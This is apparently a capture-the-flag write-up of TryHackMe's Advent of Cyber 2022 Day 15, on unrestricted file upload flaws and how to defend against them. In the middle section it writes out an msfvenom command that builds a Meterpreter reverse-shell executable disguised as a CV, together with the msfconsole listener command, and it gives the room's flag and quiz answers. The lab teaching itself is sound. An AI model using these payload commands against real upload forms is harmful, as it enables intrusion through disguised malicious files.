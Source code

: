 They should’ve coded it more securely! 😈

Welcome to Day 15 of Advent of Cyber 4 (2022) write-up. To check the room, [click here](https://tryhackme.com/room/adventofcyber4).

![](https://miro.medium.com/max/875/1*EMBEYuESJabRf0T7dsCVJA.png)

# [Day 15] Secure Coding Santa is looking for a Sidekick

Today’s task will discuss input validation, its importance, and unrestricted file upload vulnerabilities. We will also learn how a vulnerability due to insecure coding can be dangerous and exploited using the Metasploit tool in practice. Ultimately, we will learn how to implement secure defense techniques to secure our code.

# Learning Objectives

-   Input validation of file upload functionality
-   Unrestricted file upload vulnerabilities
-   Phishing through file uploads
-   How to properly secure file upload functionality

# Input Validation

Insufficient input validation is one of the biggest security concerns for web applications. The issue occurs when the application inherently trusts user-provided input. Since an attacker can also control user input, we can see how this inherent trust can lead to many problems. Several web application vulnerabilities, such as SQL Injection, Cross Site Scripting, and Unrestricted File Upload, stem from the issue of insufficient user input validation. This task will focus on how inadequate input validation can lead to an Unrestricted File Upload vulnerability.

# The Unrestricted File Uploads

The ability to upload files to a server has become integral to interacting with web applications. Just think of file uploads like a profile picture for a social media website, a report being uploaded to cloud storage, or saving a project on GitHub; the applications for file upload features are limitless. Unfortunately, when poorly handled, file uploads can also open up severe vulnerabilities in the server. This can lead to anything from relatively minor nuisance problems; to complete Remote Code Execution (RCE) if an attacker manages to upload and execute a shell. With unrestricted upload access to a server, an attacker could deface or otherwise alter existing content — up to and including injecting malicious webpages, which leads to further vulnerabilities such as Cross-Site Scripting (XSS) or Cross-Site Request Forgery (CSRF).

Unrestricted File Uploads usually have two main exploitation paths:

-   If the attacker can retrieve the uploaded file, it could lead to code execution if the attacker uploads a file such as a web shell.
-   If a user views the file, think of a CV application, then an attacker could embed malware in the uploaded file that would execute on the user’s workstation once they view the file.

To learn more, check out Day 15.

Ready to dive in? Let’s go!

1.  What is the name given to file uploads that allow threat actors to upload any files that they want?

Answer: Unrestricted

2. What is the title of the web application developed by Santa’s freelancer?

Start the machine attached to this task to load the website. Once loaded (roughly 2 minutes), you can navigate to MACHINE_IP to view the website using either the AttackBox or your TryHackMe VPN connection:

![](https://miro.medium.com/max/875/1*25suGwVv73D3eoN6mMoy-g.png)

Answer: SantaSideKick2

3. What is the value of the flag stored in the HR Elf’s Documents directory?

Create a pdf file, and save it.

![](https://miro.medium.com/max/809/1*bSCYJh2LmNO9VjDcA2rSrQ.png)

Now upload this file into the web server by clicking on browse, selecting your pdf file, and then clicking on Upload:

![](https://miro.medium.com/max/875/1*dlo7lEpyZXkp0HGIinP6Ag.png)

We got the following message after uploading the file.

![](https://miro.medium.com/max/875/1*z4dYi4lwZl6o6RvHaHBl4w.png)

Now let’s try uploading an executable file. Change the file type from .pdf to .exe and upload it to the website.

![](https://miro.medium.com/max/383/1*7jEEkhrqYSszhl2oIaFGuQ.png)

Since we got the same result, uploading a malicious file into the server is possible.  
Create a malicious CV using the following command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o cv-username.exe

**Note:** Replace tun0 with your machine IP address if you use the Attack Box. (to check your IP, use the ‘ip a’ command)

![](https://miro.medium.com/max/875/1*226Q_jEkEg_2fMJjR6MUyQ.png)

You can then also use the following to create the associated listener in the msfconsole:

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; exploit"

![](https://miro.medium.com/max/875/1*05VvpH0iuy5a8TplGrM7YA.png)

Once we have our CV, we can upload the file again. Once uploaded, give it a few minutes, and one of those elves should be reviewing our CV (It will take a while, and we have to wait):

![](https://miro.medium.com/max/564/1*C13H4n9ra6m6YP9R7UOYHA.png)

![](https://miro.medium.com/max/875/1*wLIjbE_thpAcRthfvxNULg.png)

Voila! We got access to the server.  
Using the cd command, navigate to C:\\Users\\HR_Elf\\Documents, and then you can find the flag.txt.

![](https://miro.medium.com/max/784/1*kK5TyDxzHHqRw8LF8HZHMQ.png)

Answer: THM{Naughty.File.Uploads.Can.Get.You.RCE}

4. What defense technique can be implemented to ensure that specific file types can be uploaded?

Answer: File Extension Validation

5. What defense technique can be used to make sure the threat actor cannot recover their file again by simply using the file name?

Answer: File Renaming

6. What defense technique can be used to make sure malicious files that can hurt elves are not uploaded?

Answer: Malware Scanning

7. If you want to learn more about vulnerabilities like this one, check out our [Intro to Web Hacking](https://tryhackme.com/module/intro-to-web-hacking) module!

Answer: No answer needed

# Closure

Today we learned the importance of input validation and file upload validation. Also, we learned how unrestricted file upload validation could be exploited using Metasploit. In the end, we discussed securing our code and keeping the website safe.

![](https://miro.medium.com/max/593/1*DAU3GmIo5cKP24HoyKEIJQ.jpeg)

It was a lot of fun today!

I hope you enjoyed the task and walk-through.

> Follow me on LinkedIn:_ [_https://www.linkedin.com/in/nishantverma123/_](https://www.linkedin.com/in/nishantverma123/)

Thank you for reading.
